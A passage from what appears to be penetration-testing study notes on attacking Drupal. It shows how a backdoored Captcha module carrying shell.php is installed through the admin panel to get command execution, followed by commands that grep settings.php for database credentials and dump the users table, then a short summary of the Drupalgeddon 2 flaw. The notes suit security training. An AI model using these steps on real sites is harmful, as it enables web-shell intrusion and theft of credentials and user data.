 * The configuration above will apply rules for the / folder when we request a file in /modules. Copy both of these files to the captcha folder and create an archive.

```
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```

* Assuming we have **administrative access** to the website, click on **`Manage`** and then **`Extend`** on the sidebar. Next, click on the **`+ Install new module`** button, and we will be taken to the install page, such as `http://drupal-site.local/admin/modules/install` Browse to the backdoored Captcha archive and click **`Install`**.
* Once the installation succeeds, browse to **`/modules/captcha/shell.php`** to execute commands.

**Post Exploitation**

**Read settings.php**

```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```

**Dump users from DB**

```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```

**\[CVE-2018-7600] Drupalgeddon 2**

[https://ine.com/blog/cve-2018-7600-drupalgeddon-2](https://ine.com/blog/cve-2018-7600-drupalgeddon-2)

In late March 2018, a critical vulnerability was uncovered in Drupal CMS. **Drupal before 7.58, 8.x before 8.3.9, 8.4.x before 8.4.6, and 8.5.x before 8.5.1** versions were affected by this vulnerability.

It allows remote attackers to execute arbitrary code because of an issue affecting multiple subsystems with default or standard module configurations.

A lot of PoC is available to exploit this vulnerability.

**References (tranks to all):**

[https://blog.syselement.com/ine/courses/ejpt](https://blog.syselement.com/ine/courses/ejpt)

[https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal)

[https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)
